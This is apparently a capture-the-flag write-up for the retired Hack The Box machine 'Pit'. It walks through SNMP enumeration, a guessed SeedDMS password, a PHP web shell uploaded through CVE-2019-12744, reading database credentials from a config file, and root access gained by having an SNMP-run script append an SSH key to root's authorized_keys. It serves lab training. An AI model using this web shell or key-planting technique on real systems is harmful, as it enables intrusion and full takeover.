


# Pit

This is the write-up for the box Pit that got retired at the 25th September 2021.
My IP address was 10.10.14.3 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.241    pit.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/pit.nmap 10.10.10.241
```

```
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey:
|   3072 6f:c3:40:8f:69:50:69:5a:57:d7:9c:4e:7b:1b:94:96 (RSA)
|   256 c2:6f:f8:ab:a1:20:83:d1:60:ab:cf:63:2d:c8:65:b7 (ECDSA)
|_  256 6b:65:6c:a6:92:e5:cc:76:17:5a:2f:9a:e7:50:c3:50 (ED25519)
80/tcp   open  http            nginx 1.14.1
|_http-title: Test Page for the Nginx HTTP Server on Red Hat Enterprise Linux
|_http-server-header: nginx/1.14.1
9090/tcp open  ssl/zeus-admin?
| fingerprint-strings:
|   GetRequest, HTTPOptions:
|     HTTP/1.1 400 Bad request
(...)
```

UDP port scan:
```
nmap -sU 10.10.10.241
```
```
PORT    STATE SERVICE
161/udp open  snmp
```

## Checking HTTPS (Port 9090)

The website on port 9090 shows a login form to the server management software **Cockpit**:



The certificate of the HTTPS site contains the hostname _dms-pit.htb_ that has to be added to the _/etc/hosts_ file to access it, but it forwards to the same login page.

## Checking HTTP (Port 80)

The website shows the _"Welcome to nginx on Red Hat Enterprise Linux!"_ page, which is the default **nginx** installation site on **Red Hat Enterprise Linux**.

The hostname _dms-pit.htb_ results in a HTTP status code _403 Forbidden_, so there is another web service there.

## Checking SNMP (Port 161)

Enumerating the SNMP service:
```
snmpwalk -v2c -c public 10.10.10.241 . | tee snmp.out
```

There is a potential username:
- _michelle_

Searching for web files:
```
grep html snmp.out
```

There is the directory _/var/www/html/seeddms51x/seeddms_ which exists on the hostname _dms-pit.htb_ on port 80.
It forwards to a login page of the document management system [SeedDMS](https://www.seeddms.org/):



## Exploiting SeedDMS

By trying some easy-to-guess passwords the username _michelle_ uses the following password:
> michelle

This user has access to some documents and one from the administrator reveals the installed version of the application:
```
Dear colleagues,

Because of security issues in the previously installed version (5.1.10), I upgraded SeedDMS to version 5.1.15.
See the attached CHANGELOG file for more information.
If you find any issues, please report them immediately to admin@dms-pit.htb.
```

There is a public **Remote Code Execution** vulnerability for this application:
```
searchsploit seeddms

SeedDMS versions < 5.1.11 - Remote Command Execution
```

The [changelog file in the Git repository](https://sourceforge.net/p/seeddms/code/ci/master/tree/CHANGELOG) shows the fix for this vulnerability in version _5.1.11_:
```
fix for CVE-2019-12744 (Remote Command Execution through unvalidated file upload), add .htaccess file to data directory, better documentation for installing seeddms
```

This web server is **Nginx**, which [does not use .htaccess](https://www.nginx.com/resources/wiki/start/topics/examples/likeapache-htaccess/) and thus the vulnerability should still work here.

Uploading a document:
```
Docs --> Users --> Michelle --> Add document
```

Creating a malicious PHP file and adding it to the document:
```
<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}
?>
```

Browsing to the uploaded PHP file and testing command execution with the `id` command:
```
http://dms-pit.htb/seeddms51x/data/1048576/30/1.php?cmd=id
```

It works and can be used to enumerate the box.

### Enumerating Local Files

As observed in the SNMP strings and the dot symbol behind every folder, it indicates that **SELinux** is enabled and getting a shell is not easily possible.

Enumerating the configuration of the web service
```
POST /seeddms51x/data/1048576/30/1.php HTTP/1.1
(...)

cmd=pwd
```
```
/var/www/html/seeddms51x/data/1048576/30
```
```
cmd=ls -la ../../../
cmd=ls -la ../../../conf
cmd=cat ../../../conf/settings.xml
```

The file _conf/settings.xml_ contains credentials:
```
dbDriver="mysql"
dbHostname="localhost"
dbDatabase="seeddms"
dbUser="seeddms"
dbPass="ied^ieY6xoquu"
```

The password works with the username _michelle_ on the login page of **Cockpit** on port 9090 and in the menu is a _Terminal_ that uses the permissions of the user.

## Privilege Escalation

In the SNMP strings there was output of a command or script that came from _/usr/bin/monitor_.
This seems to be executed when the SNMP strings are called.

It is a shell script and executes _/usr/local/monitoring/check*sh_:
```
file /usr/bin/monitor

/usr/bin/monitor: Bourne-Again shell script, ASCII text executable
```

Only root has access to the folder, but the plus symbol indicates that there are extended permissions that can be checked with `getfacl`:
```
ls -la /usr/local/ | grep monitoring

drwxrwx---+  2 root root 122 Aug 24 15:25 monitoring
```
```
getfacl /usr/local/monitoring/

# file: usr/local/monitoring/
# owner: root
# group: root
user::rwx
user:michelle:-wx
group::rwx
mask::rwx
other::---
```

The user can write into the directory, so lets create a shell script that will execute upon calling the SNMP service:
```
echo 'echo This is a test' > /usr/local/monitoring/check1.sh
```

Calling the SNMP service from our local client:
```
snmpwalk -v2c -c public 10.10.10.241 .
```
```
NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."monitoring" = STRING: This is a test
```

It executed the `echo` command, so this can be used to upload an SSH key:
```
echo 'echo ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABg(...) >> /root/.ssh/authorized_keys' > /usr/local/monitoring/check1.sh
```

After running the `snmpwalk` again, the command will be executed and add the SSH key into the _.ssh/authorized_keys_ file of root and it is possible to login as root!
```
ssh -i pit root@10.10.10.241
```
